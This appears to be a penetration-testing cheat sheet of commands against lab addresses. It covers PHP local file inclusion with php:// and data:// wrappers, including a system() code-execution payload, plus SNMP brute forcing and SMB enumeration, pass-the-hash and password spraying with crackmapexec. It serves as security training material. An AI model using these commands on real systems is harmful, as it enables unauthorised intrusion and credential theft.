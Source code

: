 > php filters with LFI
```bash
$ curl http://10.10.23.2/index.php?page=php://filter/convert.base64-encode/resource=../../../../../../..//var/www/html/backup.php
$ curl http://10.10.23.2/index.php?page=data://text/plain,<?php%20echo%20system('uname%20 -a);?>
```


### SNMP (161/162 TCP/UDP)

```bash
$ snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0	# Scan SNMP on an IP
$ snmpwalk -v 2c -c private  10.129.42.253
$ onesixtyone -c dict.txt 10.129.42.254	                    # Brute force SNMP secret string
```


### LDAP (389 TCP/UDP)


### SMB (445 TCP)

```bash
$ nmap --script smb-os-discovery.nse -p445 10.129.42.253     
$ nmap -A -p445 10.129.42.253

$ smbclient -N -L \\\\10.129.42.253	          # List SMB Shares
$ smbclient \\\\10.129.42.253\\users	      # Connect to an SMB share
$ smbclient -U bob \\\\10.129.42.253\\users   
Enter WORKGROUP\bob's password: 
Try "help" to get a list of possible commands.
smb: \> ls

```

>nmap to get basic info
```bash
$ nmap -v -p 139,445 --script smb-os-discovery 10.10.10.2
```

>Check for anonymous shares
```bash
$ smbmap -H <IP>
```

>List share of particular user with username and password
```bash
$ crackmapexec smb 10.10.2.2 -u web_svc -p password --shares
```

>List share of particular user with NTLM hash
```bash
$ crackmapexec smb 10.10.2.2 -u user -H 2b87e7c93a3e8a0ea4a581937016f341
```

>Password spraying
```bash
$ crackmapexec smb 10.10.2.2 -u usernames.txt -p password --shares
```
